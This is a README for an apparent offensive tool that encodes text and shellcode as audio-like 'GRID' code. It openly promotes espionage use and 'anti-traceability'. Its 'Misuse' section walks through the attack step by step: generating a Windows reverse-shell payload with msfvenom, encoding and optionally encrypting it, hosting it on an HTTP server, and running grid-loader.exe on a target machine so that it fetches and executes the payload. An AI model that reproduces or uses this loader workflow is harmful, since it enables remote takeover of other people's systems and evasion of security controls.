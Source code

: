  

# GI6E

**"It seems capable of extracting sensitive information from specially crafted audio signals."**

HEX-GRID CODEX (abbreviated as HGC) is a custom 6-bit structured encoding system that utilizes a three-bit group identifier (Group Bits) plus a three-bit index identifier (Index Bits) to form 64 unique codes. Its core design philosophy maps letters and numbers onto a two-dimensional block matrix, enabling scalable, hierarchical, and machine-parsable character distribution. This makes it suitable for Morse code extensions, embedded communication protocols, cryptographic tagging, or compact representation of special character sequences.

---

### **V1.2 Update**

* \[+] Added AES-CTR encrypted transmission to significantly increase anti-traceability difficulty
* \[+] Modified decoding sensitivity
* \[+] Added client control interface
* \[+] Encryption/decryption parser added
* \[+] Malicious shellcode loader included

**"It might just be what espionage has been waiting for."**

![SPY](./pic/Main2.jpg)

---

# Installation

```bash
$ git clone https://github.com/MartinxMax/gi6e.git
$ cd gi6e
$ pip install -r require.txt
```

---

# Usage

```bash
$ python3 grid.py
```

![alt text](./pic/image.png)

---

## Text to WAV

Convert strings into GRID-encoded `.wav` audio files:

```bash
Please enter text to convert: TEST
[+] Grid file successfully generated: ./lib/history/generate/1752834436.wav
```

![alt text](./pic/image-1.png)
![alt text](./pic/image-2.png)

---

## WAV to Text

Input a `.wav` file and decode its content to plaintext:

```bash
Enter unencrypted WAV path: ./lib/history/generate/1752834436.wav
[Unencrypted] Decoded result => ('-.-.-- . --..-. .  . -.-.-. .  . -.-.-. .  . --..-. .  . --..-. .  . -...-. .  . --..-. .  . -.-.-. . ', 'TEST')
```

![alt text](./pic/image-3.png)

---

## One-click Test

Quickly verify system functionality:

![alt text](./pic/image-4.png)

---

## Real-time Listening

Play audio and decode the message in real-time:

![alt text](./pic/image-5.png)

---

## Text to Grid

Convert plaintext into GRID code:

```bash
Please enter text to convert: HELLO
[Unencrypted] Generated Grid code => '-.-.-- . -.-.-. . .--.-- . -.-.-. . --..-. . -.-.-. . .--..- . -.-.-. . .--..- . -.-.-. . --...- . '
```

![alt text](./pic/image-6.png)

---

## Grid to Text

Convert GRID code back to readable text:

```bash
Please enter Grid code (space separated): '-.-.-- . -.-.-. . .--.-- . -.-.-. . --..-. . -.-.-. . .--..- . -.-.-. . .--..- . -.-.-. . --...- . '
[Unencrypted] Decoded: HELLO
```

![alt text](./pic/image-7.png)

---

# Misuse: GRID-based SHELLCODE Loader

![alt text](./pic/image-10.png)

Generate shellcode (e.g., reverse shell payload):

```bash
(grid-loader)$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.8.102 LPORT=443 -f python | sed 's/\<buf\>/shellcode/g' > ./SHELLCODE/Main.conf
```

![alt text](./pic/image-8.png)

Convert shellcode into GRID code:

```bash
(grid-loader)$ python3 grid-gener.py
```

You can use the `-key` parameter for obfuscated encryption:

![alt text](./pic/image-9.png)

---

## Remote Loader

```bash
$ sudo python3 -m http.server 80
```

![alt text](./pic/image-11.png)

Upload `grid-loader.exe` to target system. Use `-key` parameter if encrypted:

```bash
> grid-loader.exe -load http://192.168.8.102/Main.grid
```

**Target:**

![alt text](./pic/image-15.png)

**Ubuntu Host:**

![alt text](./pic/image-14.png)

---

## Local Loader

```bash
> grid-loader.exe -load ./Main.grid
```

**Target:**

![alt text](./pic/image-16.png)

**Ubuntu Host:**

![alt text](./pic/image-17.png)

---

## GRID Encrypted Loader

```bash
(grid-loader)$ python3 grid-gener.py -key 12345678
```

![alt text](./pic/image-19.png)

```bash
> grid-loader.exe -load http://192.168.8.102/Main.grid -key 12345678
```

Or:

```bash
> grid-loader.exe -load ./Main.grid -key 12345678
```

![alt text](./pic/image-18.png)

 